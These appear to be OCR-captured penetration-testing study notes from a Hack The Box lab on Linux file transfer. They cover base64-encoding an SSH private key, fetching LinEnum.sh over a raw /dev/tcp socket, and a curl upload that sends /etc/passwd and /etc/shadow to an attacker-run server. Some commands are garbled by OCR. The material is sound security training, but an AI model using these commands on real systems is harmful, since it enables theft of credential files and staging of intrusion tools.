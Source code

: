 # Base64 Encoding/Decoding (depends on file size)
 
```
burray@htb
[/htb]
$
md5sum id_rsa

4e301756a07ded0a2dd6953abf015278  id_rsa

burray@htb
[/htb]
$
cat
id_rsa 
|
base64 -w 
0
;
echo


burray@htb
[/htb]
$
echo
-n 
'{STRING}'
|
base64 -d 
>
id_rsa


burray@htb
[/htb]
$
wget {URL} -O /tmp/LinEnum.sh

burray@htb
[/htb]
$
curl
-o /tmp/LinEnum.sh {URL}


burray@htb
[/htb]
$
exec
3
<>/dev/tcp/10.10.10.32/80


burray@htb
[/htb]
$
echo
-e 
"GET /LinEnum.sh HTTP/1.1
\n\n
"
>
&3


burray@htb
[/htb]
$
cat
<&3
￼

burray@htb
[/htb]
$
mkdir
https 
&&
cd
https

burray@htb
[/htb]
$
sudo
python3 -m uploadserver 
443
--server-certificate /root/server.pem
burray@htb
[/htb]
$
curl
-X POST 
https://192.168.49.128/upload
 -F 
'files=@/etc/passwd'
-F 
'files=@/etc/shadow'
--insecure
burray@htb
[/htb]
$
python3 -m http.server
burray@htb
[/htb]
$
python2.7 -m SimpleHTTPServer
burray@htb
[/htb]
$
php -S 
0.0
.0.0:8000
burray@htb
[/htb]
$
ruby -run -ehttpd 
.
-p8000

burray@htb
[/htb]
$
wget192.168
.49.128:8000/filetotransfer.txt
burray@htb
[/htb]
$
scp
/etc/passwd plaintext@192.168.49.128:/home/plaintext/


```

[/htb]$md5sum id_rsa
 
4e301756a07ded0a2dd6953abf015278 id_rsa
 
burray@htb[/htb]$catid_rsa |base64 -w 0;echo
 
We can then use -d on linux to decode it.
 
burray@htb[/htb]$echo-n '{STRING}'|base64 -d >id_rsa
 
# Web Downloads
 
burray@htb[/htb]$wget {URL} -O /tmp/LinEnum.sh
 
burray@htb[/htb]$curl-o /tmp/LinEnum.sh {URL}
 
# Download with Bash

==Connect to the Target Webserver==  
burray@htb[/htb]$exec3<>/dev/tcp/10.10.10.32/80  
==HTTP GET Request==  
burray@htb[/htb]$echo-e "GET /LinEnum.sh HTTP/1.1\n\n">&3  
==Print the Response==  
burray@htb[/htb]$cat<&3￼
 
# SSH Downloads

1. Enable SSH Server
2. sudo systemctl enable ssh
3. Start SSH Server
4. sudo systemctl start ssh
5. Check for SSH Listening Port
6. netstat -lnpt
7. Download
8. scp plaintext@192.168.49.128:/root/myroot.txt .

# Upload Operations

## Web Upload

We'll use uploadserver, an extended tool from Python's HTTP.Server module.

1. Pwnbox - Start Web Server
2. burray@htb[/htb]$ sudo python3 -m pip install --user uploadserver
3. Create a self-signed cert
4. burray@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
5. Start Web Server

burray@htb[/htb]$mkdirhttps &&cdhttps  
burray@htb[/htb]$sudopython3 -m uploadserver 443--server-certificate /root/server.pem

7. Upload Multiple Files

burray@htb[/htb]$curl-X POST [https://192.168.49.128/upload](https://192.168.49.128/upload) -F 'files=@/etc/passwd'-F 'files=@/etc/shadow'--insecure

9. the --insecure is for the self-signed cert

# Alternative Web File Transfers

1. Python3

burray@htb[/htb]$python3 -m http.server

3. Python2.7

burray@htb[/htb]$python2.7 -m SimpleHTTPServer

5. PHP

burray@htb[/htb]$php -S 0.0.0.0:8000

7. Ruby

burray@htb[/htb]$ruby -run -ehttpd .-p8000
 
1. Download the File from the TARGET to Pwnbox

burray@htb[/htb]$wget192.168.49.128:8000/filetotransfer.txt

# SCP Upload

1. File Upload

burray@htb[/htb]$scp/etc/passwd plaintext@192.168.49.128:/home/plaintext/